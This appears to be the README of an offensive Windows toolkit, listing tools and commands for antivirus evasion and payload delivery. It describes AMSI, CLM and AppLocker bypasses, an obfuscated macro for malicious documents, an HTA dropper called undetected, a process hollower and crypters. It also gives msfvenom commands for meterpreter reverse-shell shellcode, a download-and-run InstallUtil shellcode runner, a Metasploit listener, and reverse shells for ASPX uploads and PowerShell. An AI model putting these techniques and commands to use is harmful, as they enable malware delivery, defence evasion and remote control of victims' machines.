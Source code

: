 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for .NET PE obfuscation.
* Hyperion.zip - Crypter for PE obfuscation.
```
hyperion.exe input.exe output.exe
```
* [Pezor](https://github.com/Karmaz95/PEzor)
```
bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```
* install_shellcode.cs - [APPLOCKER BYPASS](https://github.com/Karmaz95/install_shellcode.cs) => InstallUtil Shellcode Runner
```
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=443 -f csharp -o shell.cs
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe  /unsafe /platform:x86 /out:install_shellcode.exe .\install_shellcode.cs
iwr -uri 'http://$ip/install_shellcode.exe' -outfile C:/asd/install_shellcode.exe;
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U install_shellcode.exe
```
* shell.aspx - simple reverse shell for .aspx upload.
```
sudo msfconsole -x "use multi/handler; set LHOST tun0;set LPORT 443; exploit -j;"
```
* shell.ps1 - simple reverse shell in PowerShell.
```
Change IP and PORT.
```


## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
